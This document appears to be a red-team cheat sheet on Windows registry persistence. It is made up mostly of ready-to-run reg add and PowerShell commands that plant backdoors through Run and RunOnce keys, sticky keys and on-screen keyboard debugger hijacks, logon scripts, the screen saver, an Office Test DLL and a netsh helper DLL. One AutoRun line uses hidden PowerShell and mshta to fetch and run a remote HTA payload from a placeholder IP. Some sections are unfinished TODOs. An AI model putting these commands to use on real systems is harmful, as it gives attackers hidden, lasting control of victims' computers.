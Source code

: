 # Registry Keys

## 01 - Manual

### 1.1 - Registry Key Values

#### 1.1.1 - Registry key values both command prompt and powershell

|reg.exe|Set-ItemProperty|DataType in .reg|
|-------|----------------|----------------|
|REG_SZ|String||
|REG_EXPAND_SZ|ExpandString|hexadecimal(2)|
|REG_DWORD|DWord|dword|
|REG_QWORD|QWord|qword|
|REG_MULTI_SZ|MultiString|hexadecimal(7)|
|REG_BINARY|Binary|hexadecimal|

```
C:\> reg import file.reg

C:\> reg add "hklm\software\microsoft\windows\currentversion\run" /v <value> /t reg_sz /d "C:\path\to\shell.exe" /f
```

```powershell
PS C:\> set-itemproperty -path "hklm:\software\microsoft\windows\currentversion\run" -name "<value>" -propertytype string -value "C:\path\to\shell.exe" -force
```

### 1.2 - Registry Backdoors

#### 1.2.1 - HKLM

##### 1.2.1.1 - Syntax

`C:\> reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\run" /v <value> /t reg_sz /d "rundll32.exe C:\path\to\shell.dll,ExecDLL" /f`

##### 1.2.1.2 - Registry Paths

```
C:\> reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v Autorun /t REG_SZ /d "C:\path\to\shell.exe"

C:\> reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce" /v UpdateOnce /t REG_SZ /d "C:\path\to\shell.exe"

C:\> reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunServices" /v WindowsService /t REG_SZ /d "C:\path\to\shell.exe"

C:\> reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunServicesOnce" /v UpdateSVC /t REG_SZ /d "C:\path\to\shell.exe"

C:\> reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001" /v Autorun /t REG_SZ /d "C:\path\to\shell.exe"

C:\> reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001\Depend" /v Dependency /t REG_SZ /d "C:\path\to\shell.dll"
```

##### 1.2.1.3 - Image File Execution Options

- Sticky Keys

```
C:\> reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /t REG_SZ /d "C:\windows\system32\cmd.exe"
```

- Accessibility On-Screen Keyboard

```
C:\> reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Image File Execution Options\osk.exe" /v Debugger /t REG_SZ /d "C:\windows\system32\cmd.exe"
```

- Notepad

`C:\> reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Image File Execution Options\notepad" /v Debugger /d "C:\path\to\shell.exe"`

##### 1.2.1.4 - COM Hijacking

TODO: Fill this info

#### 1.2.2 - HKCU

##### 1.2.2.1 - Registry Paths

```
C:\> reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v Image /t REG_SZ /d "C:\path\to\shell.exe" /f

C:\> reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v Image /t REG_SZ /d "powershell.exe -ep bypass -w hidden -nologo -NonI -f C:\path\to\shell.ps1" /f

C:\> reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce" WindowsUpdate /t REG_SZ /d "rundll32.exe C:\path\to\shell.dll,ExecuteShell" /f

C:\> reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\RunServices" /v Image /t REG_SZ /d "C:\path\to\shell.exe" /f

C:\> reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce" /v Image /t REG_SZ /d "C:\path\to\shell.exe" /f

C:\> reg add "HKCU\SOFTWARE\Microsoft\Command Processor" /v AutoRun /t REG_SZ /d "powershell.exe Start-Process -windowstyle hidden -FilePath mshta.exe http://<IP>/shell.hta" /f
```

##### 1.2.2.2 - LogonScript

`C:\> reg add "HKCU\Environment" /v UserInitMprLogonScript /d "C:\path\to\shell.bat" /t REG_SZ /f`

##### 1.2.2.3 - Screen Saver

```
C:\> reg add "HKCU\Control Panel\Desktop" /v "SCRNSAVE.EXE" /t REG_SZ /d "C:\path\to\shell.exe" /f

C:\> reg add "HKCU\Control Panel\Desktop" /v "ScreenSaveTimeOut" /t REG_SZ /d "<seconds>" /f
```

##### 1.2.2.4 - Microsoft Office

`C:\> reg add "HKCU\SOFTWARE\Microsoft\Office Test\Special\Perf" /t REG_SZ /d "C:\path\to\shell.dll" /f`

##### 1.2.2.5 - COM Hijacking

TODO: Fill this info

#### 1.2.3 - Netsh Backdoor

```
C:\> reg add "hklm\software\microsoft\windows\currentversion\run" /v "Firewall Rules Persist" /t reg_sz /d "C:\Windows\System32\netsh" /f

C:\> netsh add helper C:\path\to\shellDLL.dll

C:\> netsh

netsh> add helper C:\path\to\shellDLL.dll
```

- To cleanup the backdoor

```
C:\> netsh delete helper C:\path\to\shell.dll

C:\> netsh

netsh> delete helper C:\path\to\shell.dll

C:\> reg delete "HKLM\SOFTWARE\Microsoft\NetSh" /v shellDLL /f
```

## 02 - SharPersist

TODO: Fill this info

## References

- [Mandiant: SharPersist Windows Persistence Toolkit](https://www.mandiant.com/resources/sharpersist-windows-persistence-toolkit)

- [Zweilosec: Windows RedTeam Persistence](https://zweilosec.gitbook.io/hackers-rest/windows-1/windows-redteam/persistence)

- [Persistence Info](https://persistence-info.github.io/)